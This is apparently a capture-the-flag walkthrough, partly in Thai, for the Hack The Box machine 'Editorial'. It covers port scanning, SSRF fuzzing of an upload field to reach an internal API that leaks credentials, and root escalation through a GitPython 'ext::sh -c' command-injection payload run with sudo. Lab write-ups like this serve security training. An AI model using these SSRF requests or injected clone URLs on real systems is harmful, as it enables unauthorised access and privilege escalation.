## Host Scan

```bash
./scan.sh 10.10.11.20                                
[*] Running rustscan...
[*] Running nmap on ports: 22,80
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-15 09:06 +07
Nmap scan report for 10.10.11.20
Host is up (0.040s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0d:ed:b2:9c:e2:53:fb:d4:c8:c1:19:6e:75:80:d8:64 (ECDSA)
|_  256 0f:b9:a7:51:0e:00:d5:7b:5b:7c:5f:bf:2b:ed:53:a0 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://editorial.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.13 seconds

```




```bash
nc -lvnp 80
```

หากสำรวจเว็บจะพบว่ามีหน้า Publish with us ที่สามารถใส่ URL และสามารถ Upload ไฟล์ได้ ซึ่งหากลองทดอสอบใส่ข้อมูลตามภาพแล้วกด Preview จะพบว่ามี Connection ตอบกลับมาที่ nc ที่ได้ตั้งไว้ 




จากนั้นไปดูข้อมูลของ Request และเปลี่ยนข้อมูลเป็น 127.0.0.1 พบว่ามีการใช้งาน API  หลังบ้าน 



หากทดสอบ upload ข้อมูลผ่านช่อง url โดยเปิดให้สามารถ download ได้จะพบว่าสามารถ Upload ไปที่ API ปลายทางได้ 



จากข้อมูลดังกล่าวเป็นการโจมตีรูปแบบ SSRF ซึ่งเราจำเป็นต้องหาให้ได้ว่า Port ใดที่มีช่องโหว่ โดยเราสามารถนำ Request มาแก้ไขดังต่อไปนี้ 

```http
POST /upload-cover HTTP/1.1
Host: editorial.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------1612695082257348977393033666
Content-Length: 362
Origin: http://editorial.htb
Connection: keep-alive
Referer: http://editorial.htb/upload
Priority: u=0

-----------------------------1612695082257348977393033666
Content-Disposition: form-data; name="bookurl"

http://127.0.0.1:FUZZ
-----------------------------1612695082257348977393033666
Content-Disposition: form-data; name="bookfile"; filename=""
Content-Type: application/octet-stream


-----------------------------1612695082257348977393033666--

```

## SSRF API Fuzzing 
จากนั้น save ข้อมูลดังกล่าวเป็นไฟล์ ssrf.request เพื่อนำไป Fuzzzing สำหรับหา Port ที่มีช่องโหว่ 

```bash
ffuf -u http://editorial.htb/upload-cover -request ssrf.request -w <( seq 0 65535) -ac -c 
```



จากตัวอย่างจะเห็นได้ว่า Port 5000 มีช่องโหว่ ซึ่งหากเราทดสอบ Request ด้วย http://127.0.0.1:5000 และนำข้อมูลที่ตอบกลับไปรันด้วยคำสั่ง crul จะพบการตอบกลับมาดังต่ไปนี้ 



เราสามารถตรวจสอบโดยการนำข้อมูลไปใส่ในช่อง URL: http://127.0.0.1:5000 จะได้ข้อมูล API มาด้านล่าง



หากทดสอบโดยใช้ URL ที่ได้จากก่อนหน้า เช่น http://127.0.0.1:5000/api/latest/metadata/messages/authors  เราก็จะได้ข้อมูลกลับมาตามภาพด้านล่าง 



ซึ่งจากข้อมูลนี้ทำให้เราได้ User และ password ดังนี้ 

## Cred.txt leak 

```
Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.

Your login credentials for our internal forum and authors site are:
Username: dev
Password: dev080217_devAPI!@
Please be sure to change your password as soon as possible for security purposes.

Don't hesitate to reach out if you have any questions or ideas - we're always here to support you.

Best regards, Editorial Tiempo Arriba Team.


dev:dev080217_devAPI!@
```


## PWN to SSH 

จากนั้นนำข้อมูลที่ได้ไปทดสอบเข้าด้วย SSH 


เมื่อเข้ามาจะพบกับ Folder App ที่มีไฟล์ .GIT

```
git log 
```

จากตัวอย่างจะเห็นได้ว่ามีข้อความเกี่ยวกับการ Downgrade ของระบบอยู่ 



ให้ทำการเปรียบเทียบ version ของทั้ง 2 Commit 

```
git diff b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae 1e84a036b2f33c59e2390730699a488c65643d28
```



จากข้อมูลจะเห็นได้ว่า มีข้อมูลของ Credential หลุดไป 

```
nUsername: prod
Password: 080217_Producti0n_2023!@
```



จากนั้น sudo -l จะพบว่ามีไฟล์ /opt/internal_apps/clone_changes/clone_prod_change.py 

```bash
prod@editorial:~$ sudo -l
[sudo] password for prod: 
Matching Defaults entries for prod on editorial:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User prod may run the following commands on editorial:
    (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *
prod@editorial:~$ cat /opt/internal_apps/clone_changes/clone_prod_change.py
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
prod@editorial:~$ 

```




https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858

จากข้อมูลช่องโหว่ จะพบว่าเราสาารถแทรก Payload ได้ 

```python
from git import Repo
r = Repo.init('', bare=True)
r.clone_from('ext::sh -c touch% /tmp/pwned', 'tmp', multi_options=["-c protocol.ext.allow=always"])
```

จากนั้นให้ทดสอบแทรก Payload ดังกล่าวเพิ่มเติม 
```bash
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c touch% /tmp/pwned' 
```


